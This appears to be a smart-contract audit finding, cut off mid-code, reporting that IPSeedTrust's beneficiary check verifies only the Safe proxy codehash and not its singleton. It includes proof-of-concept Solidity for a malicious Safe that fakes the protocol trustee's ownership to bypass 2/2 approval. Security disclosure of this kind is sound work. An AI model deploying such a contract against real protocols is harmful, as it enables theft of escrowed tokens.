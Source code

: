         Each project has a dedicated beneficiary address associated with it that enjoys very special rights during the next states and hence is enforced to be a (Safe) multisignature wallet with two signatories and a 2/2 threshold:
        sourcer: the user who creates the project, a medium-high trust party, as defined by on the market spawn parameters
        protocolTrustee: a protocol-controlled wallet, and high trust party (molecule), set on the configured IPSeedTrust contract.

The IPSeedTrust contract is designed to ensure that both the sourcer and the protocol trustee are required to sign off on token withdrawal transactions (e.g., `claimCollateral` and `projectSucceeded`) by verifying that the `protocolTrustee` is an owner and the threshold is set to 2.

```solidity
  function checkIfBeneficiaryIsATrustedSafe(address beneficiary) public view {
    if (protocolTrustee == address(0)) {
      return; //when no trustee is configured, we're not checking for Safe accounts
    }
    IOwnerManager ownerManager = IOwnerManager(beneficiary);

    if (
      beneficiary.codehash != SAFE_PROXY_130_CODEHASH || ownerManager.getThreshold() != 2 // @audit check codehash = SAFE_PROXY_130_CODEHASH not ensure the Gnosis Safe is trusted.
        || ownerManager.getOwners().length != 2 || !ownerManager.isOwner(protocolTrustee)
    ) {
      revert BeneficiaryIsNotTrustful();
    }
  }
```

However, the current implementation only verifies the beneficiary's codehash against the Safe Proxy contract v1.3.0's codehash. It does not confirm whether the Safe singleton itself is the legitimate v1.3.0 contract. This oversight allows a malicious actor to deploy a Safe contract with a fraudulent singleton, circumventing the intended security checks. Consequently, the malicious actor can assume control over the beneficiary safe and execute token withdrawal transactions without protocol trustee approval.

For instance, a malicious singleton might simulate a `protocolTrustee` ownership status, misleading the `isOwner` check to always return true for the `protocolTrustee` under the guise of meeting the two-signatory requirement.

```solidity
contract MaliciousGnosisSafe is GnosisSafe {
    address public fakeOwner;
    address public realOwner;

    function setReturnOwner(address _fakeOwner, address _realOwner) public {
        fakeOwner = _fakeOwner;
        realOwner = _realOwner;
    }

    function getOwners() public view override returns (address[] memory) {
        address[] memory array = new address[](2);
        array[0] = fakeOwner;
        array[1] = realOwner;
        return array;
    }

    function getThreshold() public view override returns (uint256) {
        return 2;
    }

    function isOwner(address owner) public view override returns (bool) {
        if (owner == fakeOwner) {
            return true;
        } else {
            return super.isOwner(owner);
```